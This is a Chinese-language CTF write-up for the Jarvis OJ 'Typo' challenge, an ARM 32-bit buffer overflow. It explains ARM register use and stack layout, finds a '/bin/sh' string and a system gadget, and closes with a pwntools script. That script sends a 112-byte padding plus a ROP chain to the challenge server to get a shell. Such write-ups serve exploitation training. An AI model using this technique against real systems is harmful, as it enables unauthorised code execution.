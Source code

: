 ```yaml
---
title: Jarvis OJ - Typo の Write-Up
date: 2021-01-20 17:09:22
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- Stack
- ARM
---
```

## Introduction

&emsp;&emsp;Typo作为ARM架构的题目，算是简单的入门题，让初学者能够了解ARM架构的函数调用过程。

<!-- more -->

## Step 1

&emsp;&emsp;程序看起来是一个很有趣的打字游戏：

![](/img/Typo/Typo1.png)

&emsp;&emsp;checksec发现是arm架构的32位程序：

![](/img/Typo/Typo2.png)

## Step 2

&emsp;&emsp;再简单的温习一下ARM架构的函数调用：

![](/img/Typo/Typo3.png)

* R0～R3通常用于传参，剩下的参数从右向左依次入栈，被调用者实现栈平衡，返回值存放在R0中；

* r15  ->  pc  => 当前程序执行位置；

* r14  ->  lr  => 连接寄存器：跳转指令自动把返回地址放入r14中；

* r13  ->  sp  => 栈指针：指向上一帧的栈底；

* r12  ->  ip  => ip 内部过程调用寄存器Intra-Procedure-call scratch register，其实就是r12；

* r11  ->  fp  => 当前函数栈帧的栈底,也就是栈基地址FP；

&emsp;&emsp;ARM架构的栈布局如下图所示：

![](/img/Typo/Typo4.png)

&emsp;&emsp;main stack frame为调用函数的栈帧，func1 stack frame为当前函数(被调用者)的栈帧，栈底在高地址，栈向下增长。图中FP就是栈基址，它指向函数的栈帧起始地址；

&emsp;&emsp;SP则是函数的栈指针，它指向栈顶的位置。ARM压栈的顺序很是规矩，依次为当前函数指针PC、返回指针LR、栈指针SP、栈基址FP、传入参数个数及指针、本地变量和临时变量。先压栈的main stack 进入在高地址。

## Step 3

&emsp;&emsp;回到Typo程序本身，在程序中有‘/bin/sh’字符串：

![](/img/Typo/Typo5.png)

&emsp;&emsp;同时看到是sub_10ba8函数调用这个字符串，根据sub_10ba8函数发现这个函数其实就是system函数。在这个函数下面紧接着就是sub_110b4函数可以调用sub_10ba8即system函数。

![](/img/Typo/Typo6.png)

&emsp;&emsp;有了system函数和’/bin/sh’，接下来需要的是找一个gadget控制R0寄存器：

![](/img/Typo/Typo7.png)

&emsp;&emsp;根据找到的gadget构造这样的栈结构：

![](/img/Typo/Typo8.png)

&emsp;&emsp;这样在程序返回时, 经过ROP Chain就会实现`r0 -> “/bin/sh”`, `r4 -> junk_data`, `pc = system_addr`的效果, 进而执行`system("/bin/sh")`来get shell。

&emsp;&emsp;最后就是寻找溢出点，确定padding的长度。

![](/img/Typo/Typo9.png)

&emsp;&emsp;利用cyclic可以计算出padding长度112。

## Step 4

&emsp;&emsp;所以解题脚本如下：

```
from pwn import *

# sh = process('./typo')
sh = remote("pwn2.jarvisoj.com", 9888)

payload = 'a'*112 + p32(0x20904) + p32(0x6c384) + p32(1) + p32(0x110b4)

sh.sendafter('quit', '\n')
sh.recvline()

sh.sendline(payload)
sh.interactive()
sh.close()
```

&emsp;&emsp;运行结果：

![](/img/Typo/Typo10.png)